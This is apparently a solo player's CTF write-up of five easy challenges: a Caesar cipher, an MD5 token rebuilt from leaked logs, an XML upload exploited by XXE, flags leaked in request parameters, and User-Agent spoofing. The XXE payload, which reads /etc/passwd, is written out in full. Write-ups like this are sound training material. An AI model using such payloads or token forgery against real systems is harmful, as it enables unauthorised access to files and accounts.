From now on, Long will be a solo ctf player :V. MOstly i will mostly focus on web  !



# **The Old Emperor**

FWI{vw4uw_wk3_m0xuqhb}

Ceasar (a → d ) shift 3

Flag : `CTF{st4rt_th3_j0urney}`

# **RECOVERED LOGS - HAWKINS NATIONAL LABORATORY**

In this ctf, first we connect to the server



using whatever username you want. 

Next asking for option 1. We get the previous message which is also the way to solve the chall

```bash
> 1

--- RECOVERED SYSTEM LOGS ---
[Nov 04] Murray: The Russians are under the mall! I have the blueprints!
[Nov 05] Owens: Brenner, the new token system is a joke. You just take our username, stick the year the lab was founded ('1983') at the end, and run it through a basic MD5 hash?
[Nov 05] Brenner: It is secure enough, Owens. No one knows my Operator ID is exactly 'DrBrenner' anyway.
[Nov 06] Steve: Ahoy! We're out of USS Butterscotch.
[Nov 06] Dustin: Code Red! The Demodogs are in the tunnels!

```

- was founded ('`1983`') at the end
- my Operator ID is exactly '`DrBrenner`' anyway

⇒ `DrBrenner1983`

and run it through a basic MD5 hash !



> `43095647eb9196088480eab17e08605a`
> 



Flag : `CTF{Dr_n0_br3nn3R}`    

# **The Hawkins Breach**



As we can see it upload xml file. It may vuln to `xxe` 

Crafting payload :

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY leak SYSTEM "file:///etc/passwd">  
]>
<subject>
    <name>&leak;</name>
    <status>Missing</status>
</subject>
```



Flag : `CTF{fr13nds_d0nT_l13}` 

# **The Fav Controversy**



When you search for something, it has sent 2 requests that contain 2 parts of the flag in their id parameter.







Flag : `CTF{rcC_k4_d!55_LmA0}`

# **The Gate**

- The challenge provides hints about "Agent" identification and  "Wizard.”
- **Header Check**: Use `curl -I` to inspect the HTTP Response Headers.



Modify the User-Agent to `WizardWill` to spoof the identity requested by the server.



Flag : `CTF{should_i_stay_or_should_i_head}`

HIhi that is it :V bye !!!